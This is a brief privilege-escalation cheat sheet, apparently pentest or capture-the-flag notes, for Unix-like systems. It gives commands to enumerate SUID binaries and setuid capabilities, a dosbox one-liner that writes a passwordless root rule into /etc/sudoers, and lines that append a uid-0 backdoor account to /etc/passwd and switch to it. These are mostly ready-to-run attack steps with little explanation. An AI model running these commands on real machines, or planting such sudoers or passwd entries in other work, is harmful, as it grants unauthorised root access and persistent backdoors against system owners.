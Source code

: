 > https://gtfobins.github.io/
> 

```jsx
find / -perm -u=s -type f 2>/dev/null
find / -perm /4000 2>/dev/null
find / -perm -4000 -user root -exec ls -ld {} \; 2> /dev/null
//some suid binary
-rwsr-xr-x  1 root  wheel    29K Oct  6  2022 /usr/local/bin/doas
```

check process permission

```jsx
ps u -C passwd
grep Uid /proc/1932/status
```

binaries

```jsx
#dosbox
LFILE='/etc/sudoers'
/usr/bin/dosbox -c 'mount c /' -c "echo Sarge ALL=(root) NOPASSWD: ALL >> c:$LFILE" -c exit
```

### Capabilities

setuid

```jsx
/usr/sbin/getcap -r / 2>/dev/null

/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.28.1 = cap_setuid+ep
/usr/bin/python3.10 cap_setuid=ep
```

### Misconfigured access

Restart service

```jsx
/usr/local/www/apache24/data/phpMyAdmin/tmp
/usr/local/bin/doas service apache24 onestart #if doas is suid binary
```

Write to /etc/passwd

```jsx
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2

//pass root2
 -c "echo root2:\$1\$IdiABLmH\$mD1mSZbPztSmvht.AbtkN.:0:0:root:/root:/bin/bash" >> /etc/passwd
```
